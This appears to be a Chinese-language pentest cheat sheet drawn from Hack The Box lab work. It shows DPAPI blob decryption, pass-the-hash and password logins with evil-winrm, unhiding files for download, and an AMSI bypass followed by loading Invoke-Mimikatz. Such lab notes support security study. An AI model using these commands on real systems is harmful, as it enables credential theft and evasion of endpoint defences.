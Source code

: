 DPAPI 加密的 blob 通常以 `01000000`（存在于您的数据中）开头，这是 DPAPI 加密数据的签名，表明数据已使用用户或机器的安全上下文进行加密。

```powershell
# 解密DPAPI加密的blob
$pw = Get-Content enc | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$unsecuredpassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$unsecuredpassword
```



# Evil-WinRM

## 登录命令

```
# hash登录
evil-winrm -i dc01.fluffy.htb -u 'administrator' -H 8da83a3fa618b6e3a00e93f676c92a6e

# 密码登录
evil-winrm -i dc01.tombwatcher.htb -u 'john' -p 'P@ssw0rd456!'
```

## 往事回忆：download命令下载文件失败

使用evil-winrm的download命令下载windows目录下的隐藏文件，结果失败了！只能使用powershell命令强制去掉文件的隐藏属性，**并且cd到目标文件的目录下**，然后再使用download命令才成功下载到kali本地。

当前目标文件目录下的文件全部强制去掉隐藏属性：

```
Get-ChildItem -Force | ForEach-Object {attrib -H -S $_.FullName}
```

指定目录D:\Data下的文件全部强制去掉隐藏属性：

```
Get-ChildItem -Path "D:\Data" -Recurse -Force | % { $_.Attributes = $_.Attributes -band -bnot [System.IO.FileAttributes]::Hidden }
```

## AMSI

Evil-winrm 提供了一项功能，允许我们使用主机上的脚本。我们可以使用 **-s** 标志以及本地机器上存储脚本的脚本文件路径，将脚本直接加载到内存中。此外，它还提供了 AMSI 功能，我们在导入任何脚本之前通常都需要这项功能。下面的命令实现绕过 AMSI，直接从系统调用 Invoke-Mimiktz.ps1 脚本到目标机器并将其加载到内存中。

```bash
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```


